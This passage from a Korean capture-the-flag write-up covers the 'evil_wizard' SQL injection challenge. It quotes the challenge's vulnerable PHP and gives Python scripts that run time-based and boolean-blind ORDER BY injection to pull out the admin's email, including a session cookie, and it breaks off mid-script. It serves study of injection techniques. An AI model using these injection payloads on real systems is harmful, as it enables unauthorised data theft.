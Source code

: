 ```python
    start = time.time()
    res = requests.get(url=url, params=param, cookies=cookie)
    end = time.time()
    if end - start > 0.5:
      email += chr(char)
      print(email)
      break
        
print(email.lower())
```
<br>

## Evil_wizard
```php
<?php
  include "./config.php";
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|proc|union|sleep|benchmark/i', $_GET[order])) exit("No Hack ~_~");
  $query = "select id,email,score from prob_evil_wizard where 1 order by {$_GET[order]}"; // same with hell_fire? really?
  echo "<table border=1><tr><th>id</th><th>email</th><th>score</th>";
  $rows = mysqli_query($db,$query);
  while(($result = mysqli_fetch_array($rows))){
    if($result['id'] == "admin") $result['email'] = "**************";
    echo "<tr><td>{$result[id]}</td><td>{$result[email]}</td><td>{$result[score]}</td></tr>";
  }
  echo "</table><hr>query : <strong>{$query}</strong><hr>";

  $_GET[email] = addslashes($_GET[email]);
  $query = "select email from prob_evil_wizard where id='admin' and email='{$_GET[email]}'";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if(($result['email']) && ($result['email'] === $_GET['email'])) solve("evil_wizard");
  highlight_file(__FILE__);
?>
```
### exploit
Hell_fire와 같지만 필터링 항목이 늘어났다.
**sleep과 benchmark**가 필터링되었기 때문에 다른 방법을 찾아야한다.
php 코드에 **"// same with hell_fire? really?"** 라는 힌트가 있다.
나는 이 부분이 TimeBased를 사용하지 말라는 의미로 받아들였다.

어떻게 문제를 해결할까 고민하다가, 조건이 참인 값을 넣으면 admin 컬럼이 먼저 출력되는 것을 발견했다.
이를 이용해 문제를 해결했다.
```python
import requests

url = "https://los.rubiya.kr/chall/evil_wizard_32e3d35835aa4e039348712fb75169ad.php"

cookie = {'PHPSESSID' : 'ovbfdu14h0vaeamskdlr10nttu'}

for len in range(100):
  param = {'order': f"if(id='admin' and length(email)={len},1,10)#"}
  res = requests.get(url=url, params=param, cookies=cookie)
  if 'score</th><tr><td>admin' in res.text:
    print(len)
    break

length = 30
email = ""
for len in range(1, length+1):
  for char in range(ord('0'), ord('z')):
    param = {'order': f"if(id='admin' and ord(substr(email,{str(len)},1))={str(char)}, 1, 10)#"}
```